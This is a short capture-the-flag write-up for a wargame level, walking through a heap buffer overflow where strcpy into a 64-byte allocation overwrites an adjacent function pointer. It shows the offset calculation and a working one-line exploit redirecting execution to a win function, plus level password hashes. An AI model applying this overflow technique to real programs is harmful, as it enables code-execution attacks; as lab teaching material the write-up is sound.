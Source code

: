 # Level 6
```bash
su level6 #8d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Steps
This binary markes one `malloc(64)` then `malloc(4)`. It copies `argv[1]` to the `malloc(64)` using `strcpy`. By default, the address of `m()` is put at the `malloc(4)`. This address will then be executed.

We can try overflow the `malloc(64)` to the other, so that we modify this called address. To calculate the offset, we do:

```bash
$ ltrace ./level6
malloc 1 = 0x0804A008
malloc 2 = 0x0804A050
diff = 0x48 # 72 
```

We simply have to replace the call to `m()` by `n()`.

```bash
$ ./level6 $(python -c "print 72 * 'a' + '\x08\x04\x84\x54'[::-1]")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
